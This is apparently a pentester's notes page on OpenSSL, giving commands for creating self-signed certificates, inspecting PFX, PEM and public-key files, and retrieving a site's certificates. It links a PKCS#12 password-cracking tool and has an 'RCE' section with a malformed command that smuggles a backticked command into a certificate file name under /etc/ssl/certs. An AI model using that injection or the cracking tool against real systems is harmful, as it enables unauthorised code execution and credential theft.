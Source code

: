 ```yaml
---
layout: app
title: "OpenSSL"
tags: ["openssl"]
image: "cipher"
---
```


[GitHub - crackpkcs12/crackpkcs12: A multithreaded program to crack PKCS#12 files (p12 and pfx extensions)](https://github.com/crackpkcs12/crackpkcs12)

## RCE

```bash
cd /etc/ssl/certs
sudo ```echo "------BEGIN CERTIFICATE------" > "hey.crt\` ifconfig\`"```
```

## Create a new Certificate

```bash
openssl req -newkey rsa:2048 -nodes -keyout <nombre>.key -x509 -days <dias> -out <certificado>.crt
```

- **-req**: Firma de un nuevo certificado
- **-newkey**: Generar llave privada
- **-rsa:2048**: Usar RSA de 2048 bits como tamaño de la llave
- **-nodes**: Almacena la llave privada sin protección de contraseña
- **-keyout**: Guarda la llave como un archivo
- **-x509**: Genera un certificado autofirmado
- **-days**: Días de validación del certificado
- **-out**: Almacena el certificado


### Genera un llave con el par de llaves publica y privada.
```bash
cat <llave>.key <certificado>.crt > <llave>.pem
```

# Get Information

```bash
openssl pkcs12 -info -in <file>.pfx -noout # PFX
openssl x509 -in <file>.pem -noout -text
openssl pkcs12 -in <archivo>.pfx -clcerts -nokeys
```

### From Public Key

```bash
openssl pkey -pubin -in pub_id.pem -text -noout
openssl rsa -pubin -in pub_id.pem -text -noout
openssl ec -pubin -in pub_id.pem -text -noout 
```

- **-pubin**: Set the input file type is a public key
- **-text**: Display the key in text format
- **-noout**: Don't display PEM information, just display details

# Site Information

```bash
openssl s_client -showcerts -servername www.example.com -connect www.example.com:443 </dev/null
```